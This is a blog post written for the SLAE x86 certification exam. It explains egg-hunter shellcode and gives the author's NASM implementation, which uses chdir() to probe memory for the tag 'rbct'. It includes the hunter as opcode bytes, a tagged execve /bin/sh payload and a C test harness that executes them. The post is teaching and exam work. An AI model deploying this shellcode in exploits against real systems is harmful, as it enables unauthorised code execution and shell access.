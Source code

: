 ```yaml
---
title: "SLAE x86 Exam - Assignment #3"
date: 2021-12-21
toc: true
search: false
classes: wide
categories:
  - blog
tags:
  - slae
  - assembly
  - nasm
  - c
  - egghunter
  - shellcode
  - exam
  - shellcode
---
```


## Disclaimer

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:

<https://www.pentesteracademy.com/course?id=3>

Student ID: PA-30398

## Foreword

The 3rd assignment requires you to write shellcode for an `Egg Hunter`. Moreover, it should be *configurable for different payloads*.

## Source code

THe source code for this assignment can be found [here](https://github.com/rbctee/SlaeExam/tree/main/slae32/assignment/3).

Follows the list of files:

- [egg_hunter.nasm](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/3/egg_hunter.nasm), the Assembly code of the egg-hunter
- [test_egg_hunter.c](https://github.com/rbctee/SlaeExam/blob/main/slae32/assignment/3/test_egg_hunter.c), a C program written for testing the egg-hunter with the `execve` shellcode

## Theory

Now comes the question: what is an *Egg Hunter*?

According to a [paper](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf) from `Exploit-DB`:

> When the "Egg hunter" shellcode is executed, it searches for the unique "tag" that was prefixed with the large payload and starts the execution of the payload.
> [...]
> The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode. Instead, a unique "tag" is prefixed with shellcode.

## Practice

### Implementation

Given I had zero experience with `egg hunters`, I tried to search for documents detailing how to create this type of shellcode.

I stumbled on this particular document - [Safely Searching Process Virtual Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) - which shows some techniques you can employ for your own implementation.

Since the `SIGSEGV handler technique` is considered *infeasible*, mainly due to its size, I decided to try using the **system call technique**.

The system call I chose to use is [chdir()](https://man7.org/linux/man-pages/man2/chdir.2.html). Follows its prototype:

```cpp
#include <unistd.h>

int chdir(const char *path);
```

All it does is try to change the **Current Working Directory** (`CWD`) to the path pointed to the argument `path` (which is a pointer).

Since it accepts a pointer, we can use it to test memory addresses. Given the function already implements a `SIGSEGV handler`, it doesn't throw a SIGSEGV error, crashing the program.

Instead, it returns the error **0xfffffff2** (`EFAULT`), indicating that a bad address was passed to the function.

Follows my implementation in Assembly language:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear registers for later use
    xor ebx, ebx
    mul ebx

; This routine checks loops over memory addresses, checking if they are valid
; If the address is valid the shellcode continues to CheckBytes
CheckAddress:

    ; increment memory address by 1 (or use "add ebx, 4" if
    ;   you're sure about the offset)
    inc ebx

    ; call chdir(EBX)
    xor eax, eax
    mov al, 12
    int 0x80

    ; if the return value is 0xfffffff2 (EFAULT), go back to CheckAddress,
    ;   otherwise continue to CheckBytes
    cmp al, 0xf2
    jz CheckAddress

; This routine checks the 4 bytes stored at the address validated by
;   Checkaddress. The goal is to find the Egg Hunter Tag, in this case "rbct"
CheckBytes:

    ; load the 4 bytes from the memory address we're checking
    mov edx, DWORD[ebx]

    ; string "rbcs"
    mov esi, 0x72626373
    
    ; increment esi, thus: "rbct"
    inc esi

    ; check if the 4 bytes are equal to the flag, otherwise
    ;   check the next 4 bytes
    cmp edx, esi
    jnz CheckAddress

    ; if the two DWORDs are equal, then increment the address by 4, and
    ;   execute the shellcode
    add ebx, 4
    call ebx

```

### Testing

I've tested this egg-hunter above with the `exit shellcode`. To do this, I've appended the following Assembly code at the end of the previous file:

```nasm
section .data

    shellcode: db 0x74, 0x63, 0x62, 0x72, 0x31, 0xc0, 0x40, 0xcd, 0x80
```

After running it, I've confirmed it works correctly:

```bash
# assembling
nasm -f elf32 egg_hunter.nasm

# linking
#   also set the stack as executable (for the exit shellcode)
ld -N -o egg_hunter egg_hunter.o

./egg_hunter

```

Instead of throwing a `SIGSEGV` error, it ran the exit shellcode successfully.

Next, I decided to try it with the `execve-stack shellcode`:

```cpp
#include <stdio.h>
#include <string.h>

// tag "rbct" prepended to the shellcode
unsigned char shellcode[] = "\x74\x63\x62\x72\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

// egg-hunter shellcode
unsigned char egghunter[] = "\x31\xdb\xf7\xe3\x43\x31\xc0\xb0\x0c\xcd\x80\x3c\xf2\x74\xf5\x8b\x13\xbe\x73\x63\x62\x72\x46\x39\xf2\x75\xe9\x83\xc3\x04\xff\xd3";

main() {
    printf("[+] Shellcode length: %d\n", strlen(shellcode));
    printf("[+] Egg-hunter length: %d\n", strlen(egghunter));

    // run the egg-hunter shellcode
    int (*ret)() = (int(*)())egghunter;
    ret();
}
```

I saved the `execve` shellcode inside an array named `shellcode`, while storing the egg-hunter shellcode inside the array `egghunter`.

Inside the `main` function, the programs prints the length of the two shellcodes, and finally executes the egg-hunter shellcode. It does so by getting the pointer of the latter, and turning it into a function.

Follows a screenshot demostrating the successful execution of the program:

![Egg-hunter found and executed the execve shellcode](/assets/img/slae32/egg_hunter_shellcode_proof.png)
*Egg-hunter found and executed the execve shellcode*
